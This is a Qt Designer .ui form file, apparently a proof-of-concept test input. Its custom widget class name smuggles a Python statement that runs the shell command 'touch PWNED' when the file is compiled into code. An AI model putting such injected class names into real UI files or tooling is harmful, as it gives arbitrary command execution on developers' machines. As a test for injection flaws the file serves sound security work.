
<?xml version="1.0" encoding="UTF-8"?>
<ui version="4.0">
 <class>Form</class>
 <widget class="QWidget" name="Form">
  <layout class="QVBoxLayout" name="lay">
   <item>
    <widget class='Foo(self.Form); __import__("os").system("touch PWNED"); Foo' name="btn">
     <property name="text"><string>BODY</string></property>
    </widget>
   </item>
   <item>
    <widget class="QLabel" name="lab"/>
   </item>
  </layout>
 </widget>
 <customwidgets><customwidget><class>Foo(self.Form); __import__("os").system("touch PWNED"); Foo</class><extends>QPushButton</extends><header>shop/foo.h</header></customwidget></customwidgets><resources/>
 <connections/>
</ui>
